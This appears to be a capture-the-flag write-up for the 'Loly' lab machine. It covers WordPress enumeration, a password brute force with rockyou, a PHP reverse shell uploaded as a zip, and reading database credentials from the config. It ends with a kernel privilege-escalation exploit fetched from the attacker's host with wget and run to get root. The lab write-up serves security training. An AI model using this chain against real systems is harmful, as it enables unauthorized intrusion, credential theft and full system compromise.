






## Nmap

```bash
nmap -A -T4 -p 80 --open 192.168.141.121
Starting Nmap 7.98 ( https://nmap.org ) at 2026-04-09 17:38 +0000
Nmap scan report for 192.168.141.121
Host is up (0.095s latency).

PORT   STATE SERVICE VERSION
80/tcp open  http    nginx 1.10.3 (Ubuntu)
|_http-title: Welcome to nginx!
|_http-server-header: nginx/1.10.3 (Ubuntu)
```


## Feroxbuster

```bash
feroxbuster -u http://192.168.141.121 -s 200 -t 200 --scan-dir-listings

#Results
[####################] - 2m     30000/30000   223/s   http://192.168.141.121/ 
[####################] - 2m     30000/30000   219/s   http://192.168.141.121/wordpress/ 
[####################] - 2m     30000/30000   223/s   http://192.168.141.121/wordpress/wp-content/ 
[####################] - 2m     30000/30000   225/s   http://192.168.141.121/wordpress/wp-admin/ 
[####################] - 2m     30000/30000   221/s   http://192.168.141.121/wordpress/wp-includes/ 
[####################] - 2m     30000/30000   225/s   http://192.168.141.121/wordpress/wp-content/plugins/ 
[####################] - 2m     30000/30000   224/s   http://192.168.141.121/wordpress/wp-content/themes/ 
[####################] - 2m     30000/30000   222/s   http://192.168.141.121/wordpress/wp-content/banners/ 
[####################] - 2m     30000/30000   227/s   http://192.168.141.121/wordpress/wp-admin/css/ 
[####################] - 2m     30000/30000   222/s   http://192.168.141.121/wordpress/wp-admin/user/ 
[####################] - 2m     30000/30000   226/s   http://192.168.141.121/wordpress/wp-includes/blocks/ 
[####################] - 2m     30000/30000   226/s   http://192.168.141.121/wordpress/wp-includes/css/ 
[####################] - 2m     30000/30000   229/s   http://192.168.141.121/wordpress/wp-includes/images/ 
[####################] - 2m     30000/30000   224/s   http://192.168.141.121/wordpress/wp-includes/assets/ 
[####################] - 2m     30000/30000   232/s   http://192.168.141.121/wordpress/wp-admin/includes/ 
[####################] - 2m     30000/30000   219/s   http://192.168.141.121/wordpress/wp-includes/js/ 
[####################] - 2m     30000/30000   229/s   http://192.168.141.121/wordpress/wp-admin/js/ 
[####################] - 2m     30000/30000   227/s   http://192.168.141.121/wordpress/wp-content/reports/ 
[####################] - 2m     30000/30000   228/s   http://192.168.141.121/wordpress/wp-includes/customize/
```

## Run wordpress
```bash
wpscan --url http://192.168.141.121/wordpress \
  --enumerate u,p,t,cb,dbe \
  --plugins-detection aggressive

# User loly found
```

## WPSCAN Bruteforce on Loly
```bash
wpscan --url http://192.168.141.121/wordpress \
  --usernames loly \
  --passwords /usr/share/wordlists/rockyou.txt

#Results
loly:fernando 
```

## Log in as loly
- Visit: http://192.168.141.121/wordpress/wp-admin


## Edit /etc/host file

```bash
sudo nano /etc/hosts

#Add
192.168.141.121 loly.lc
```

## Revisit wp-admin
```bash
http://loly.lc/wordpress/wp-admin

#Login
loly:fernando
```

## Create shell
https://www.revshells.com/

```bash
nano reverse.php

# Zip it
zip reverse.zip reverse.php

#NOTE: WP Will automatically extract a .Zip file.
```

## Upload and Access File

```bash
#NOTE: Says files are available in /banners. So where is banners? According to feroxbuser its: http://192.168.141.121/wordpress/wp-content/banners/ 

# Start listener
nc -nvlp 4444

# Access file to establish shell. In browser: http://192.168.141.121/wordpress/wp-content/banners/reverse.php
```

## Shell Established


## Found wpconfig file

```bash
cd /var/www/html/wordpress/

# Found a config file
cat wp-settings.php  

# Results
/** MySQL database username */
define( 'DB_USER', 'wordpress' );

/** MySQL database password */
define( 'DB_PASSWORD', 'lolyisabeautifulgirl' );

/** MySQL hostname */
define( 'DB_HOST', 'localhost' );

# password: lolyisabeautifulgirl
```

## Found username

```bash
cat /etc/passwd

#results
loly:x:1000:1000:sun,,,:/home/loly:/bin/bash
```

## Upgrade Shell
```bash
python3 -c 'import pty;pty.spawn("/bin/bash")'
```

## Switch users
```bash
su loly:lolyisabeautifulgirl
```

## Enumerate Linux Kernal

```bash
uname -a

#Results
Linux ubuntu 4.4.0-31-generic #50-Ubuntu SMP Wed Jul 13 00:07:12 UTC 2016 x86_64 x86_64 x86_64 GNU/Linux
```

## Search for exploit
```bash
searchsploit ubuntu 4.4
#Led me to this
searchsploit linux kernel 4.4
```


## Picking the right one

```bash
Linux Kernel < 4.13.9 (Ubuntu 16.04 / Fedora 27) - Local Privilege Escalation                                                                                                                                                                                                             | linux/local/45010.c 

# Chose this due to the version being later, so it should cover previous versions.
```
## Download and Transfer File
```bash
#Download
searchsploit -m 45010.c

#Host transfer
python -m http.server 8000

#Transfer file
cd /tmp

wget http://192.168.45.244:8000/45010.c
```

## Compile it
```bash
gcc 45010.c -o myshell
```

## Change Permissions
```
chmod 777 myshell
```

## Execute Shell
```bash
./myshell

# Success
# Grab Root Flag
# Grab Local Flag
find / -iname local.txt 2>/dev/null
#Then
cat /var/www/local.txt

```